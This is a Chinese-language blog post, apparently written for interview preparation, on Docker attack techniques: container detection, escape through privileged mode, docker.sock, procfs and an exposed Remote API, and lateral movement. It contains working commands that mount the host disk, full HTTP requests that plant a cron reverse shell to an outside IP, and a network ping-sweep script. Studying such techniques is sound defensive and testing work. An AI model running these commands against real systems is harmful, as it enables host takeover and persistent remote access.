





浅谈 Docker 安全问题

- - -

## 浅谈 Docker 安全问题

### Background

在面试的时候，经常会有面试官询问你容器逃逸，以及 docker 下的渗透技巧，因此总结记录写下本篇文章

### Docker 攻击模型

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171942-879780b4-c33e-1.png)

面试中经常会问这个问题，docker 下有什么渗透经验，其实可以分为以上四种

1.业务（应用）到容器，就是漏洞打进来在容器里吗

2.拿下其中一个容器权限，从容器中横向渗透

3.容器估计宿主机，也就是逃逸

4.主机攻击容器，本机，其他主机

### 非官方镜像投毒问题

经常在排查的时候，发现很多镜像被投了各种挖矿木马，或者后门木马镜像 更像是供应链安全要关注的地方，但是在面试的时候还是要提及相关

### 容器 Dos 问题

如果没有正确限制容器可以使用的资源，cpu 和带宽都会面临被 Dos 攻击的风险

### 权限问题

我们最常听到 root 身份运行容器是不安全的，但是非 root 用户有很多限制，所以 Linux capabilities 可以用来选择容器所需的用户权限

### 逃逸问题

docker 面临的主要还是逃逸问题

#### 判断是否 docker 容器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171950-8c1f7808-c33e-1.png)

容器中存在 一个.dockerenv 为空的文件

查看初始进程的 cgroup 来验证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204171956-8ff454c6-c33e-1.png)

#### 容器本身漏洞&&内核洞

docker 本身存在很多 cve，比如 cve-2019-5736 runc 这种需要 docker exec 和 attach 时才会触发，但实际上漏洞是比较鸡肋的，我就除了 Portainer，没用过任何 CVE

Portainer 是一个可视化的容器镜像的图形管理工具，利用 Portainer 可以轻松构建，管理和维护 Docker 环境。而且完全免费，基于容器化的安装方式，方便高效部署。

本身是没有默认账号密码的，需要登陆设置，在某些场景能拿到的情况下 我们可以在 Portainer 里面创建容器挂载宿主机目录，通过 chroot 切换 Shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204172012-993b36c6-c33e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204172027-a282ab2e-c33e-1.png)

因为网上有太多相关的文章了，这里就不赘述了

不仅如此也有很多类似 Dirtycow DirtyPipe 的，本身内核级别的漏洞，对 docker 的影响也是致命的，

云安全 Wiki 上具体列了很多可能造成的 CVE

[https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html](https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html)

#### 特权模式启动

如果容器 docker run --rm --privileged -it 使用--privileged 形式启动，容器是可以访问宿主机的磁盘的，这样就可以挂载宿主机逃逸

判断方法很简单 fdisk -l 查看是否可以访问磁盘

cat /proc/self/status | grep CapEff 或者查看 CapEff 值判断是不是特权值 0000003fffffffff

可以通过以下命令简单的挂载逃逸

```plain
mkdir /tmp/1
fdisk -l
mount /dev/sda1 /tmp/1
cd /tmp/1
chroot ./ bash
```

在真实场景我们可以通过 useradd 添加用户

#### 寻找 docker.sock 文件

这种情况下一般没有客户端

```plain
ls /var/run/ | grep -i docker.sock
```

查找然后可以进行 docker -H 的链接

出网情况下可以直接安全 不出网情况下，我们可以通过 cdk 模块发包

```plain
./cdk ucurl get /var/run/docker.sock http://127.0.0.1/info ""
```

#### **Procfs 目录挂载**

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态

本身场景很少，一般很少会把 procfs 挂载到宿主机

一般检测是能否找到两个 core\_pattern 文件

```plain
find / -name core_pattern
```

利用思路相对比较复杂

1.寻找容器在宿主机上的目录路径

2.在/tmp 下反弹脚本

3./proc/sys/kernel/core\_pattern 写入恶意文件

4.执行 c 代码，使进程崩溃

#### docker remote api

某些 ctf 平台就会使用这种方式来动态创建靶机，但如果 remote api 设置如下

```plain
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

开放在公网上就有被攻击的风险

有的时候也会发现是 2376 端口 区别是 2375 未加密 2376 是加密

攻击手法 一般可以写密钥和定时任务，一般情况下考虑定时任务，密钥有失败的可能 如未开启之类的

利用/containers/create 创建容器，把宿主机的”/”目录挂载到容器的”/mnt”目录下

```plain
POST /containers/create HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 130

{"HostName":"remoteCreate","User":"root","Image":"nginx/ntpd:4.2.6p5","HostConfig":{"Binds":["/:/mnt"],
"Privileged":true}}


//容器创建成功，并返回容器 id
HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:00:07 GMT
Content-Length: 90
Connection: close

{"Id":"容器 id","Warnings":null}
```

```plain
启动容器

POST /containers/容器id/start HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


HTTP/1.1 204 No Content
Api-Version: 1.38
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:04:19 GMT
Connection: close
```

启动 写 shell 到公钥

```plain
POST /containers/容器id/exec HTTP/1.1
Host:  *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 556

{
"AttachStdin":true,
"AttachStdout":true,"AttachStderr":true,
"DetachKeys":"ctrl-p,ctrl-q",
"Tty":false,
"Cmd":["sh","-c","echo '03 11 * * * bash -i >& /dev/tcp/40.*.*.*/4444 0>&1' >> /mnt/var/spool/cron/root"]
}

HTTP/1.1 201 Created
Api-Version: 1.38
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.06.1-ce (linux)
Date: Mon, 18 Apr 2022 09:08:20 GMT
Content-Length: 74
Connection: close

{"Id":"实例 id"}
```

启动就行

```plain
POST /exec/实例id/start HTTP/1.1
Host: *:2375
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.119 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 27

{"Detach":true,"Tty":false}
```

#### Capabilities

上文提到 linux 有各种安全机制

如果给了一些权限比如 CAP\_SYS\_ADMIN

通过 capsh --print 查看是否有。有的话能访问宿主机磁盘，其实跟上文操作一样了

### Docker 横向渗透

docker 环境下一般可能缺各种环境，出网环境直接安装就行

而且因为容器的网卡 k8s 分配，在摸资产时候还需要探测 172 10 192 网段

Busybox 因为一般是静态编译的，可以上传一个 busybox 上去，常用的命令基本就都有了

偷别的师傅的探测 c 段的脚本

```plain
#Bash，探测 C 段存活
mkdir -p /usr/tmp/
cat > ping.sh << EOF
#!/usr/bin/env bash
for ip in {1..254};do
    ./busybox ping -c1 -W1 10.244.0.\$ip|grep -q "ttl=" && echo "10.244.0.\$ip yes" >> /usr/tmp/.sys.log & >/dev/null 2>&1;
done
wait
EOF

#这样会把容器跑死，影响业务，要把 wait 去掉
cat > ping.sh << EOF
#!/usr/bin/env bash
for i in {1..254};do
    for j in {1..254};do
        ./busybox ping -c1 -W1 10.\$i.\$j.1|grep -q "ttl=" && echo "10.\$i.\$j.0/24 yes" >> /usr/tmp/.sys.log & >/dev/null 2>&1;
    done
done
wait
EOF
```
